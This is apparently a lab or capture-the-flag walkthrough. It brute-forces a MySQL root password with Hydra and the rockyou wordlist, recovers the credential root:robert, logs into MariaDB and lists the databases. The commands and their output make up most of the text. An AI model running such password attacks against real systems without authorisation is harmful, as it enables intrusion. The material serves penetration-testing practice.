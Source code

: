 # Enumeration

---

## 3306 | MySQL

Run Hydra against the mysql service with the _root_ username.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.243.88 mysql
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-05 16:11:17
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://192.168.243.88:3306/
[3306][mysql] host: 192.168.243.88   login: root   password: robert
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-05 16:11:26

```

We get the credential _root:robert_

Authenticate to the MySQL service to enumerate additional user credentials.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ mysql -u root -p -h 192.168.243.88
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1747
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>

```

Show databases.

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress_db       |
+--------------------+
4 rows in set (0.077 sec)

```
